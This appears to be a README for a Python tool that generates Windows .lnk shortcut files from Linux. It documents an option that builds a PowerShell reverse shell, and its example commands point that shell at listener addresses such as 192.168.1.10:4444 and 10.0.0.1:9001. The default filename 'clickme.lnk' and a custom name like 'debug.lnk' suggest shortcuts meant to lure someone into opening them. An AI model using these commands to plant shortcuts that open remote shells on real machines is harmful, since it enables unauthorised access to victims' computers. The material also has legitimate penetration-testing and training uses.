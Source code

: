 # .lnk File Generator

Generate Windows shortcut files (.lnk) from Linux.

## Usage

### Command line
```bash
python3 lnk_generator.py -r 192.168.1.10 4444 # Reverse Shell
python3 lnk_generator.py -c "ping 8.8.8.8"
python3 lnk_generator.py -c "calc.exe" -o calculator.lnk
```

### Interactive mode
```bash
python3 lnk_generator.py --interactive
```

## Options

| Option | Description |
|--------|-------------|
| `-c, --command` | Command to execute |
| `-r, --reverse IP PORT` | Generate PowerShell reverse shell |
| `-o, --output` | Output filename (default: clickme.lnk) |
| `--type` | Shortcut type: powershell/cmd/custom |
| `--desc` | Shortcut description |
| `-i, --interactive` | Force interactive mode |
| `-v, --verbose` | Verbose output |

## Examples

```bash
# PowerShell command
python3 lnk_generator.py -c "Get-Process"

# Reverse shell
python3 lnk_generator.py -r 192.168.1.10 4444 # Reverse Shell

# Reverse shell with custom filename
python3 lnk_generator.py -r 10.0.0.1 9001 -o debug.lnk

# CMD command  
python3 lnk_generator.py -c "dir" --type cmd

# Custom executable
python3 lnk_generator.py -c "C:\\Windows\\System32\\calc.exe" --type custom
```

## Requirements

- Python 3.6+
- Linux environment

## Files

- `lnk_generator.py` - Main interface
- `native_lnk_generator.py` - Core generator
- `template.lnk` - Windows template file
